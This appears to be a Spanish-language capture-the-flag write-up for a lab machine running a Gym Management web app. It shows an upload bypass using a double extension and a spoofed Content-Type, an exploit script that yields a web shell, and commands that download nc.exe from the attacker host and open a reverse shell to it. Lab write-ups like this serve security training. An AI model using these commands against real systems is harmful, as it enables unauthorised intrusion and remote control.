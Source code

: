 Analyzamos el script y lo comprobamos con firefox al mismo tiempo:

1. Ir a la pagina /upload.php que no mirra para una session de usuario authentificado

    - `http://10.10.10.198:8080/upload.php` Nos pone undefined id parameter.

1. Ponerle un parametro id en la GET request que appunte en el fichero deseado

    - `http://10.10.10.198:8080/upload.php?id=EEEE` nos hace algo.

1. Bypasseamos un archivo con una doble extension. (.php.png)
1. Bypasseamos el type check modificando el **Content-type** del fichero con `image/png`
1. Se pone un codigo malicioso en el body del fichero

Estos passos se pueden facilmente hacer a mano pero aqui vamos a utilizar el proprio exploit.


## Vuln exploit & Gaining Access {-}

### Conneccion por gym management {-}

```bash
python gym_management.py http://10.10.10.198:8080/
```

Ya estamos en la maquina victima. Pero estamos con una web shell. 

### Reverse Shell {-}

En la maquina de attackante enviamos un nc.exe a la maquina victima para tener una shell interactiva

```bash
locate nc.exe
cp /opt/SecLists/Web-Shells/FuzzDB/nc.exe .
python -m http.server 80
```

Con otra terminal, nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

desde la maquina victima, lo descargamos y lo ejecutamos

```bash
curl http://10.10.14.8/nc.exe -o nc.exe
./nc.exe -e cmd 10.10.14.8 443
```


Si le hacemos un type `C:\users\shaun\Desktop\user.txt` podemos ver la flag.

### Analyzando la maquina {-}

```bash
whoami
whoami /priv
whoami /all
```

